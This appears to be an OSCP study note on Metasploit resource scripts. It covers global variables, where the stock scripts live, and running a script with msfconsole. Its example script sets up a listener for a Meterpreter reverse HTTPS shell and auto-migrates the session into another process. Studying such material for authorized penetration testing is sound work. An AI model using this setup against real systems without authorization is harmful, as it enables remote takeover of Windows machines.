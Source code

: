 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/11-metasploit-framework/7-automated-resource-scripts/","updated":"2024-01-05T11:36:34.997+01:00"}
---
```


----------------
- Set global variables in MSF:
```
setg LHOST <ip>

unsetg LHOST
```

- Pre-configured Metasploit resource scripts:
	/usr/share/metasploit-framework/scripts/resource

- Run resource scripts written in Ruby:
```
sudo msfconsole -r script.rc
```

- Example-script:
	- run -z stops from automatically interacting with session
	- ExitOnSession closes listener on opened session
	- migrate module migrates to notepad.exe as default
```
#Set up listener
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.119.4
set LPORT 443

#Run when session is opened
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
run -z -j
```
